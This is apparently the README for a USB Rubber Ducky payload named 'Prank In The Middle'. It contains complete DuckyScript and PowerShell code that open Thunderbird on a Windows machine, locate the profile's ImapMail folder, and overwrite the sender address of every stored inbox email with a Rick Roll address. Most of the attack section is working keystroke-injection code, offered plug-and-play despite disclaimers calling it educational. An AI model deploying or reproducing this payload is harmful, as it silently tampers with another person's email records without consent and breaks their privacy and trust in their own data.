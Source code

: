 # Prank In The Middle - Thunderbird

The name of the payload `Prank In The Middle` is named after the pun Prank + Man In The Middle in that this operation, in some ways, can remotely be configured as a MITM attack but since it was created specifically for playful purposes then here is the reason for the union with the word Prank.

**Category**: Prank

**Plug-And-Play** ^^

## Index

- [Description](#description)
- [Requirements](#requirements)
- [How the Program Works](#how-the-program-works)
- [Code Details](#code-details)
    - [System Detection && Short Start DELAY](#system-detection--short-start-delay)
    - [Navigating in Thunderbird](#navigating-in-thunderbird)
    - [Opening PowerShell and Email Manipulation](#opening-powershell-and-email-manipulation)
    - [The Regex](#the-regex)
- [Notes](#notes)
- [Credits](#credits)

## Description

This program automates a series of actions on a Windows system (*tested on Windows 10 but should works in Windows 11*) to manipulate the contents of emails found in a Thunderbird profile. Specifically, it identifies emails in the `INBOX` file of each configured email account and replaces the sender's email addresses with a fictitious address `Rick.Roll@tinyurl.com/prinkrollme` where `prinkrollme` is the union of the words `Prank`, `Rick Roll` and `Me` (*this one was necessary becouse prinkwoll era già stato preso* **:c** *so sad...* ) all compressed into the link `tinyurl.com/prinkrollme` ([*3° note*](#notes)) that redirect to the YouTube video `https://www.youtube.com/watch?v=xMHJGd3wwZk`.

![](https://i.ibb.co/VJjfbkJ/1.png)

## Requirements

- A Windows system with Thunderbird installed.
- Access to PowerShell.
- Permissions to run code in Powershell


## Test Environment

- Thunderbird 115.11.1 (64 bit)
- Windows 10 Pro

## How the Program Works

1. **System Detection:** The program detects if the system reflects the CAPSLOCK state and sets a dynamic delay based on this.
2. **Opening Thunderbird:** Uses a series of commands to open Thunderbird and navigate to the profile folder settings.
3. **Copying the Profile Folder Path:** Copies the profile folder path to the clipboard.
4. **Opening PowerShell:** Opens a PowerShell window and navigates to the `ImapMail` folder of the Thunderbird profile.
5. **Email Manipulation:** Uses PowerShell to:
   - Find all `INBOX` folders within `ImapMail`.
   - Read the contents of the emails in `INBOX`.
   - Replace the sender addresses with `Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>`.
   - Save the modified content back to the original email files.

## Code Details

### System Detection && Short Start DELAY

```plaintext
EXTENSION DETECT_READY
    REM VERSION 1.1
    REM AUTHOR: Korben
    ...
    DEFINE #RESPONSE_DELAY 25
    DEFINE #ITERATION_LIMIT 120

    VAR $C = 0
    WHILE (($_CAPSLOCK_ON == FALSE) && ($C < #ITERATION_LIMIT))
        CAPSLOCK
        DELAY #RESPONSE_DELAY
        $C = ($C + 1)
    END_WHILE
    CAPSLOCK
END_EXTENSION
```

### Navigating in Thunderbird

```plaintext
WIN r
STRING thunderbird
ENTER
DELAY 1000
REPEAT 4 TAB
ENTER
DELAY 500
REPEAT 2 UPARROW
ENTER
DELAY 500
REPEAT 3 UPARROW
ENTER
DELAY 500
REPEAT 11 TAB
ENTER
DELAY 500
REPEAT 4 TAB
SPACEBAR
ENTER
CTRL c
ALT F4
```

### Opening PowerShell and Email Manipulation

```plaintext
WIN r
STRING powershell
ENTER
DELAY 1500
STRING cd 
CTRL v
ENTER

STRINGLN
    cd ImapMail
    $directories = Get-ChildItem -Directory | Select-Object FullName
    foreach ($dir in $directories) {
        $newPath = $dir.FullName -replace '\\', '/'
        $newPath += "/INBOX"
        if (Test-Path $newPath) {
            $emails = Get-Content -Path $newPath -Raw
            $modifiedEmails = $emails -replace "From:\s.*\s<(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])>", "From: Rick Roll <Rick.Roll@tinyurl.com/prinkrollme>"
            Set-Content -Path $newPath -Value $modifiedEmails -Force
        }
    }
END_STRINGLN
DELAY 1000
ALT F4
```

### The Regex

The regex was not created from scratch but was taken from the discussion “[How can I validate an email address using a regular expression?](https://stackoverflow.com/questions/201323/how-can-i-validate-an-email-address-using-a-regular-expression)” posted on **StackOverflow**.

```plaintext
(?:[a-z0-9!#$%&'*+/=?^_`{|}~-]+(?:\.[a-z0-9!#$%&'*+/=?^_`{|}~-]+)*|`"(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21\x23-\x5b\x5d-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])*`")@(?:(?:[a-z0-9](?:[a-z0-9-]*[a-z0-9])?\.)+[a-z0-9](?:[a-z0-9-]*[a-z0-9])?|\[(?:(?:(2(5[0-5]|[0-4][0-9])|1[0-9][0-9]|[1-9]?[0-9]))\.){3}(?:(2(5[0-5]|[0-4][0-9])|[1-9]?[0-9])|[a-z0-9-]*[a-z0-9]:(?:[\x01-\x08\x0b\x0c\x0e-\x1f\x21-\x5a\x53-\x7f]|\\[\x01-\x09\x0b\x0c\x0e-\x7f])+)\])
```

The only difference is the addition of `**From: <...>**` which reduces to just the email addresses that sent the emails and not all addresses detected in the file that might depict other references

```plaintext
From:\s.*\s<...>
```

## Notes

1) This program was created for educational and demonstrative purposes. Unauthorized alteration of emails is illegal, and violating others' privacy is a crime.
2) Ensure you have the necessary permissions before running any script that modifies personal or sensitive data.
3) Considering [Staged Payloads](https://github.com/hak5/usbrubberducky-payloads?tab=readme-ov-file#staged-payloads), generally, it is not possible to include code that downloads from external sources. In this case, however, the setup involves a redirect to a YouTube video, which has been conveniently shortened using `tiny.url`. It is important to note that this redirect can be modified, and I strongly recommend changing it to a personal link for your security. While I assure you that I will never alter the link, no one can guarantee that I won't be compromised, allowing someone else to alter the redirect. It is always advisable and a good practice to never use links found online without understanding the actual redirect and replacing it with your own link.

## Credits

<h2 align="center"><a href="https://aleff-gitlab.gitlab.io/">Aleff</a></h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
